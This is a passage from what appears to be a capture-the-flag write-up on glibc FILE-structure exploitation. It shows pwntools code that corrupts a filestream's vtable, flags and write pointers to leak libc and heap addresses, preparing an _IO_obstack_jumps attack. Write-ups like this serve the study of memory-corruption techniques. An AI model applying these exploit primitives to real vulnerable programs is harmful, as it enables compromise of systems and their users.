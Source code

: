 **Note**: Given `fp->_IO_read_end != fp->_IO_write_base`, `fp->_IO_read_end` is the save buffer that has been allocated and switched in `_IO_default_pbackfail` and that `_IO_write_base` contains the target memory area, we have to include the `_IO_IS_APPENDING` flag into `fp->_flags` to avoid the `_IO_SYSSEEK` which would fail and then return. Therefore we can finally reach the `_IO_SYSWRITE` that will leak the libc pointer.

The leak phase gives for me something like this:
```py
# do_allocate
partial_write(pwn.p8(0xa8), File.vtable)
fflush()

# _IO_file_underflow => _IO_default_pbackfail
partial_write(pwn.p8(0x60), File.vtable)
fflush()

write_ptr(pwn.p64(0xfbad1800 | 0x8000), File.flags)

partial_write(pwn.p8(0x70), File._IO_write_base)

partial_write(pwn.p8(0x78), File._IO_write_ptr)
partial_write(pwn.p8(0xa0), File.vtable)
write_ptr(pwn.p64(1), File.fileno)
fflush()

leak = pwn.u64(io.recv(8).ljust(8, b"\x00")) - 0x2160c0 + 0x2d160
pwn.log.info(f"libc: {hex(leak)}")
```

## Heap leak

To use the `_IO_obstack_jumps` technique, we have to craft a custom `obstack` structure on the heap (right on our filestream in fact) and thus we need to leak the heap to be able reference it. But given we already have a libc leak that's very easy, within the `main_arena` are stored some heap pointers, which means we just have to use the same `_IO_fflush` trick to flush the filestream and then leak a heap pointer stored in the `main_arena`. I wrote a function that leaks directly the right pointer from a given address:
```py
def leak_ptr(ptr: bytes) -> int:
    """
    We assume flags are right
    """

    write_ptr(ptr, File._IO_write_base)
    
    dest = (int.from_bytes(ptr, byteorder="little")+8).to_bytes(8, byteorder='little')

    write_ptr(dest, File._IO_write_ptr)

    fflush()
    ret = pwn.u64(io.recv(8).ljust(8, b"\x00"))

    return ret

"""
[...]
"""

leak_main_arena = leak + 0x1ed5a0

heap = leak_ptr(pwn.p64(leak_main_arena)) - 0x2a0
pwn.log.info(f"heap: {hex(heap)}")
```
